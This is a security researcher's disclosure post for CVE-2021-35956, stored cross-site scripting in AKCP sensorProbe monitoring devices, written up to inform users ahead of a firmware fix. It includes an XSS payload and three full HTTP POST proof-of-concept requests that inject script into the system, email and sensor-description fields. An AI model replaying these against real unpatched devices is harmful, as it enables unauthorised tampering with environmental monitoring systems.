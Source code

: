 ```yaml
---
layout: cve
title:  "[disclosure] [HERO] AKCP sensorProbe - 'Multiple' Cross Site Scripting (XSS)"
date: 2021-06-06 09:34:43 -0400
categories: "About"
author: Tyler Butler
description: CVE-2021-35956
lead: Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua.
tag:  disclosure

hero:
  image: /assets/uswds/img/camera.jpg
  callout:
    alt: "AKCP sensorProbe"
    text: Multiple Cross Site Scripting (XSS)
  button:
    href:
    text:
    number:
    enable: false
  link:
    text: Link to more about that priority
    href: /link/
  content: Internet Vulnerability Observatoryfind multiple stored XSS vulnerabilities in a leading enviormental monitoring device
---  
```



| CVE ID  	|  Date Discovered 	| Date Published  	|  CVSS Severiy 	|
|---	|---	|---	|---	|
| CVE-2021-35956  	|  May 29 2021 	| 29 June 2021   	|   5.4	|

#### **💡 About the Vendor**  

<a href="https://www.akcp.com" class="highlighted">AKCP</a> is a sensor manufacturer developing network-based temperature, enviorment, and power monitoring devices. Their clients include big names like Nasa, Coca-cola, Toyota, Adobe, and much <a href="https://www.akcp.com/about-akcp-2/" class="highlighted">more</a>. Their most popular devices include the sensorProbe, securityProbe, and AKCPro Server. This research identifies multiple stored cross-site scripting vulnerabilities in all sensorProbe devices. According to <a href="https://www.akcp.com/akcp-products/sensorprobe-series/" class="highlighted">AKCP</a>, the sensorProbe devices are,

*"the worlds **most installed** Remote Environmental Sensor Monitoring Device ... deployed in a wide variety of industries including Data Center Environmental Monitoring, Warehouse Temperature Monitoring, Cold Storage Temperature Monitoring, Fuel / Generator Monitoring, and other Remote Site Monitoring applications."*   

####  **🆘 CVE-2021-35956 Vulnerability Details**  

All sensorProbe devices prior to firmware version SP480-20210624 are vulnerable to authenticated stored cross-site scripting via the Sensor Description, Email, and System setting fields. Authenticated users can introduce arbitrary javascript through the vulnerable fields, and have payloads execute in the context of users who visit the sensorProbe embedded webserver dashboard. While stored XSS can be dangerous, this vulnerability requires the attacker to already be authenticated in order to store payloads. 

*The following section identifies proof of concepts for each vulnerable field*  

#### Stored Cross-Site Scripting via System Settings  

The sensorProbe embedded web server is vulnerable to authenticated stored cross-site scripting via the system name and system location parameters in system settings.

**Payload**: ``<svg/onload=alert`xss`>``

**Proof of Concept**  

```yaml
POST /system?time=32e004c941f912 HTTP/1.1
Host: [target]
Content-Length: 114
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://[target]
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://[target]/system?time=32e004c941f912
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

_SA01=System+Namer&_SA02=RDC&_SA03=Name<svg/onload=alert`xss`>&_SA04=1&_SA06=0&_SA36=0&_SA37=0&sbt1=Save
```  

![](/assets/img/posts/2021-06-28-CVE-2021-35956/xss_0.png)  

![](/assets/img/posts/2021-06-28-CVE-2021-35956/xss-1.png)  




#### 2) Stored Cross-Site Scripting via Email Settings  

The sensorProbe embedded web server is vulnerable to authenticated stored cross-site scripting via the mail from, mail to, and mail cc  parameters in email settings.  

**Payload**: ``<svg/onload=alert`xss`>``

**Proof of Concept**

```yaml
POST /mail?time=32e004c941f912 HTTP/1.1
Host: [target]
Content-Length: 162
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://[target]
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://[target]/mail?time=32e004c941f912
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


_PS03=test@test.com&_PS04=test@test.com&_PS05_0=test@test.com&_PS05_1=test@test.comr&_PS05_3=<svg/onload=alert`xxss`>&_PS05_4=&sbt2=Save
```   

![](/assets/img/posts/2021-06-28-CVE-2021-35956/xss_2x.png)  


 


#### 3) Stored Cross-Site Scripting via Sensor Description

The sensorProbe embedded web server is vulnerable to authenticated stored cross-site scripting via sensor settings description parameter for each of the sensor options. 


**Payload**: ``<svg/onload=alert`xss`>``

**Proof of Concept**  


```yaml
POST /senswatr?index=0&time=32e004c941f912 HTTP/1.1
Host: [target]
Content-Length: 55
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://[target]
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://[target]/senswatr?index=0&time=32e004c941f912
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: CPCookie=sensors=400
Connection: close

_WT00-IX="><svg/onload=alert`xss`>&_WT03-IX=2&sbt1=Save
```  

####  **🚀 Firmware Upgrade**  

As of Friday June 25th, SensorProbe users can upgrade their devices to SP480-20210624 according to AKCP standards outlined in the <a href="https://www.akcp.com/support-center/customer-login/sensorprobe-series-firmware-download/" class="highlighted">firmware download</a> page.  

```text
Firmware Update – Download – release date 28 June 2021
Latest Firmware – SP480-20210624
Note: To download files, right-click on the file and select “save as”
md5sum: 83f107f274ed6fda2cd5aa0f21935a98

IMPORTANT NOTE: The sensorProbe2 & SP8 units with the Atmega128 micro-controller (SPxxxi) do not support this firmware version. You can check your units micro-controller version in the web interface System page >> System Description. If you see an “I” after the firmware version (SPxxxi) then your unit is using the older Atmega128 micro-controller. Please see below for the latest firmware for your SP8 base unit.
```  



![](/assets/img/posts/2021-06-28-CVE-2021-35956/changelog.png)  
